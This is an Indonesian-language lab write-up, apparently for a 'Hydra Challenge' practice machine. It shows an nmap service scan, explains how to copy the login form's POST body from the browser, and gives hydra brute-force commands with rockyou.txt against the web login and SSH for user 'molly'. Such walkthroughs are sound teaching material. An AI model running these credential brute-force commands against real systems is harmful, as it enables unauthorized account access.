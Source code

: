 lakukan enumerating scan pada target dengan nmap

```
nmap -sC -sV IP-target
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:              
|   2048 34:d2:f6:c1:e7:db:68:7e:c9:15:f4:28:43:c8:95:7b (RSA)    
|   256 0e:c3:5b:e1:00:60:13:ed:b5:92:40:cc:88:3d:d7:6c (ECDSA)
|_  256 ea:c8:17:04:e2:65:6a:4d:d3:70:d9:bb:7b:65:58:94 (ED25519)
80/tcp open  http    Node.js Express framework                
| http-title: Hydra Challenge                                     
|_Requested resource was /login                                   
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

`IP-target:80` akan memberikan login page jika dibuka di browser. Kita bruteforce dengan hydra, dengan target username `molly`.

Pertama kita perlu mengambil request form dari login page, buka inspect element, lalu masuk ke tab `network`. Masukkan creds user:pass sembarang pada login form, dan nantinya page akan refresh dan tab network akan berisi beberapa aktivitas, hal ini hanya digunakan untuk mengambil request body. Selanjutnya di tab network pilih aktifitas dengan POST method, lalu klik tombol Resend pada bagian kanan dan akan muncul tab baru pada inspect element, lalu cari request body, dan copy isinya.

Selanjutnya buat command untuk bruteforce dengan hydra.
```
hydra -l molly -P /path/to/rockyou.txt IP-target http-form-post "/login:username=^USER^&password=^PASS^:incorrect"
```

nantinya akan keluar creds untuk web login. Sedangkan untuk ssh, lebih simple

```
hydra -l molly -P /path/to/rockyou.txt IP-target -s 22 ssh
```

dan nantinya akan keluar creds untuk ssh login

```
ssh molly@IP-target
password: ---
```
